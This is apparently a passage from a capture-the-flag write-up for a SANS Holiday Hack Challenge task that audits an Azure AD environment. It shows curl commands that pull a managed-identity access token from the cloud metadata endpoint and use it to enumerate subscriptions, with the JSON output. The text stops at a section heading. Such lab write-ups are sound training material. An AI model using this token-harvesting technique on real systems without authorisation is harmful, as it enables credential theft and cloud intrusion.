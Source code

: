 ## Objective
Go to Steampunk Island and help Ribb Bonbowford audit the Azure AD environment. What's the name of the secret file in the inaccessible folder on the FileShare?

## Solution

```bash
HEADER="Metadata:true"
URL="http://169.254.169.254/metadata"
API_VERSION="2021-12-13"
TOKEN_MGT=`curl -s -f -H "$HEADER" "$URL/identity/oauth2/token?api-version=$API_VERSION&resource=https://management.azure.com/" | jq -r '.access_token'`
```

#### Get Subscriptions

```bash
curl -X GET -H "Authorization: Bearer $TOKEN_MGT" -H "Content-Type: application/json" -H "Cache-Control: no-cache" \
  "https://management.azure.com/subscriptions?api-version=2022-01-01"
```
```json
{
  "value": [
    {
      "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64",
      "authorizationSource": "RoleBased",
      "managedByTenants": [],
      "tags": {
        "sans:application_owner": "SANS:R&D",
        "finance:business_unit": "curriculum"
      },
      "subscriptionId": "2b0942f3-9bca-484b-a508-abdae2db5e64",
      "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
      "displayName": "sans-hhc",
      "state": "Enabled",
      "subscriptionPolicies": {
        "locationPlacementId": "Public_2014-09-01",
        "quotaId": "EnterpriseAgreement_2014-09-01",
        "spendingLimit": "Off"
      }
    }
  ],
  "count": {
    "type": "Total",
    "value": 1
  }
}
```

#### List Resources within a Subscription

